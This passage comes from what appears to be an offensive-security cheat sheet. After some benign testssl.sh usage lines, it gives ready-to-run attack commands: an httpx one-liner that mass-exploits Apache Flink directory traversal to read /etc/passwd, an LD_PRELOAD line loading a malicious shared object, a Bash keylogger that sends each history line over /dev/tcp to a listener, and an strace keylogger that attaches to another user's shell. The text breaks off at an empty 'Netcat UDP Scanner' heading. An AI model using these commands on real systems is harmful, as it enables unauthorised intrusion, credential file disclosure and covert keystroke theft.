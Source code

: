 Special cases:

```sh
testssl.sh --starttls smtp <smtphost>.<tld>:587 
testssl.sh --starttls ftp <ftphost>.<tld>:21
testssl.sh -t xmpp <jabberhost>.<tld>:5222 
testssl.sh -t xmpp --xmpphost <XMPP domain> <jabberhost>.<tld>:5222 
testssl.sh --starttls imap <imaphost>.<tld>:143
```

## Apache Flink Directory Traversal

```sh
cat hosts | httpx -nc -t 300 -p 80,443,8080,8443,8888,8088 -path "/jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd" -mr "root:x" -silent
```

## LD_PRELOAD Hijacking

If you set LD_PRELOAD to the path of a shared object, that file will be loaded before any other library (including the C runtime, libc.so)

```sh
LD_PRELOAD=/path/to/my/malicious.so /bin/ls
```

## Bash Keylogger

```PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'```

## Strace Keylogger

```sh
root@rosesecurity:~# ps aux | grep bash
rick      3103  0.0  0.6   6140  3392 pts/0    Ss+  17:14   0:00 bash
root      3199  0.0  0.6   6140  3540 pts/1    Ss   17:18   0:00 bash
root      3373  0.0  0.1   3488   768 pts/1    S+   18:06   0:00 grep bash
```

Strace Options:

1. –p 3103: connect to PID 3103, which above is on pts/0
2. –t : print the time of day
3. –e write: only capture write calls
4. –q : be quiet
5. –f : follow any fork (created) process
6. –o keylogger.txt: output the results to a file named keylogger.txt

```sh
root@securitynik:~# strace -p 3103 -t -e write -q -f -o keylogger.txt &
[1] 3432
```

## Netcat UDP Scanner
